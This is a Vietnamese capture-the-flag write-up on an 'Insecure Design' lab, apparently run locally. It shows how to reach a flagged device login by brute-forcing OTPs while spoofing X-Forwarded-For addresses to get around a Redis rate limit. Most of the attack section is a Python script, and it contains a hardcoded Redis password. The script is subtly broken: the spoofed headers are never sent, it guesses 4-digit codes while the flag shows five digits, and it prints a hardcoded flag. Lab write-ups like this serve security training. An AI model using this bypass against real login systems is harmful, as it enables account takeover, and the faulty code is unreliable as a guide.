





# 🧱 Insecure Design

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:4004/
```

---

## Phân tích

- Khi vào link trang web chúng ta sẽ có môt giao diện login forms gồm 


- Truy cập: `http://127.0.0.1:4004/generator.php`


- Tiếp theo, ta sẽ nghiên cứu resource của bài này. Bài này sẽ gồm có các file chính sau: `index.php`, `generator.php`, `0f1dc3a4a495befc4fd568aa151b6c8b.db`


- Sau khi nghiên cứu luồng hoạt động. Đại khái sẽ là: index sẽ kết nối với Redis server, dữ liệu đăng nhập sẽ được truy suất trong cái file .db dài dài trên kia và điều kiện để có được flag là ta sẽ phải đăng nhập bằng ID: CVE-170144 và mã OTP của nó

==>	Vậy điều kiện để lấy được flag sẽ là đăng nhập bằng ID kể trên

- Vào file 0f1dc3a4a495befc4fd568aa151b6c8b.db rồi dùng ID và mã OTP có ở trong đó đăng nhập thử


- ==>	Kết quả trả về sẽ là: OTP is not expired
- Vậy thử tạo mã Otp mới 
---

## Vấn đề

-  Lỗi "attempt to write a readonly database" cho thấy rằng cơ sở dữ liệu SQLite hiện đang chỉ đọc và không cho phép ghi vào`
- Redis giới hạn số lần thử tạo OTP
- Cần sử dụng bypass bằng thay đổi IP giả (spoofed IP)

---

## Python Bypass Code

- OK!  Vậy sẽ phải dùng đến redis bypass và thay đổi địa chỉ IP để tránh được giới hạn số lần gọi và thử tạo OTP liên tục

```python
# Code bypass Redis và tạo OTP liên tục (xem nội dung đầy đủ trong writeup gốc)
...
import requests
import random
import string
from redis import Redis
# Thiết lập kết nối Redis
redis_client = Redis(host='localhost', port=6379, db=0, password='hungthinhtran_bountyboys', decode_responses=True)

# Địa chỉ URL cho form đăng nhập và tạo OTP
login_url = "http://localhost:4004/"
generator_url = "http://127.0.0.1:4004/generator.php"
# Hàm tạo OTP ngẫu nhiên
def generate_otp(digits=4):
    return ''.join(random.choices(string.digits, k=digits))
# Hàm gửi yêu cầu POST đến generator.php để tạo OTP
def create_otp(device_id):
    payload = {'id': device_id}
    response = requests.post(generator_url, data=payload)
    if "WE SENT OTP TO YOUR DEVICE" in response.text:
        print(f"OTP created successfully for device ID: {device_id}")
        return True
    else:
        print(f"Failed to create OTP for device ID: {device_id}")
        return False
# Hàm đăng nhập với OTP
def login_with_otp(device_id, otp):
    payload = {'id': device_id, 'otp': otp}
    response = requests.post(login_url, data=payload)
    
    if "Bounty_Boys{Captured_The_Flag}" in response.text:
        print("Login successful! Flag: Bounty_Boys{Captured_The_Flag}")
        return True
    elif "Wrong OTP or device ID not exist" in response.text:
        print("Wrong OTP or Device ID")
        return False
    elif "OTP is expired" in response.text:
        print("OTP expired")
        return False
    else:
        print("Unexpected response:", response.text)
        return False

# Bypass Redis giới hạn số lần yêu cầu bằng cách spoof IP
def spoof_ip():
    # Thay đổi địa chỉ IP giả
    new_ip = f"192.168.{random.randint(1, 255)}.{random.randint(1, 255)}"
    headers = {'X-Forwarded-For': new_ip}
    print(f"Using spoofed IP: {new_ip}")
    return headers

# Vòng lặp thử tạo OTP và đăng nhập
def bypass_ctf(device_id):
    headers = spoof_ip()  # Đổi địa chỉ IP để tránh bị giới hạn Redis

    if create_otp(device_id):
        otp = generate_otp()  # Tạo OTP ngẫu nhiên
        if login_with_otp(device_id, otp):
            print("Successfully bypassed and got the flag!")
            return
        else:
            print("Login failed with OTP.")
    else:
        print("Unable to create OTP.")

# Thử nghiệm với một device_id cụ thể
device_id = "CVE-170144"
bypass_ctf(device_id)
```

- Vào 0f1dc3a4a495befc4fd568aa151b6c8b.db để refresh data


---

## Flag


```
Device ID: CVE-170144
OTP: 01234
```
